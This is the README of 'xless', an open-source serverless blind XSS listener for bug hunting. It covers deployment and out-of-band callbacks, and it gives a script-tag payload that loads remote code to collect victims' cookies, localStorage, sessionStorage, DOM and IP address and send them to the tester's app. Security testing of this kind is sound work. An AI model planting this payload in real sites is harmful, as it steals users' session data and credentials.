 XLESS
======

# The Serverless Blind XSS App

## About The Project
xless is a serverless blind XSS app that can be used to identify blind XSS vulnerabilities using your own deployed version of the app. There is no need to run a full deployment process; just setup a zeit.co account and run `bash deploy.sh`. That's it. You have a fully-running Blind XSS listener that uses Slack to notify you for blind XSS callbacks.


## Requirements

* zeit.co account: Zeit provides free plan for serverless. If you use another provider for serverless, code changes should be minimal.
* Slack Incoming Webhook URL.


## Deployment

1. Run:

```bash
$ bash deploy.sh

> Deploying ~/xless under X
> https://xless.now.sh [v2] [in clipboard] [4s]
> Success! Deployment ready [4s]
```
2. Use the URL for blind XSS testing :fire:

**Xless will automatically serve the XSS payload, collect information, and exfiltrate it into your serverless app, which is then sent right to you in Slack.**


## Example Payload

```javascript
<script src="https://xless.now.sh"></script>

Enjoy bughunting
```


## Demo
![Demo](https://raw.githubusercontent.com/mazen160/public/master/static/images/xless-screenshot.png)


# Collected Data

* Cookies
* User-Agent
* HTTP Referrer
* Browser DOM
* Browser Time
* Document Location
* Origin
* LocalStorage
* SessionStorage
* IP Address


# Out-of-Band Callbacks Listener

Xless also works as an OOB (Out-of-Band) callbacks listener for HTTP/HTTPS requests. Any HTTP GET request that is sent to non-parent path will be alerted.

### Demo

```bash
$ curl https://xless.now.sh/callback-canary
```

![OOB CallBack Listener Demo](https://raw.githubusercontent.com/mazen160/public/master/static/images/xless-screenshot-oob-callback-example.png)

Or anything random, such as:

```bash
$ curl https://xless.now.sh/88bf0ecd
```


# Example Blind XSS payloads

You can view a number of handy XSS payloads for your Xless app at `/examples`
* URL: `https://xless.now.sh/examples`
Once you deploy your app, you can find the examples there.


## Contribution
Contribution is very welcome. Please share your ideas by Github issues and pull requests.

Here are some ideas to start with:
1. Enabling sharing of page screenshot - Check `test.payload.js`.
2. A nice logo design!
3. _Your idea of a new feature_?


## Acknowledgement

* Matthew Bryant (https://github.com/mandatoryprogrammer) for the XSS Hunter project.
* Rami Ahmed (https://twitter.com/rami_ahmad) for the "xless" name idea.
* Zeit.co for operating a great serverless platform.


## Legal Disclaimer
This project is made for educational and ethical testing purposes only. Usage of xless for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


## License
The project is currently licensed under MIT License.

## Author
*Mazin Ahmed*
* Website: [https://mazinahmed.net](https://mazinahmed.net)
* Email: *mazin AT mazinahmed DOT net*
* Twitter: [https://twitter.com/mazen160](https://twitter.com/mazen160)
* Linkedin: [http://linkedin.com/in/infosecmazinahmed](http://linkedin.com/in/infosecmazinahmed)

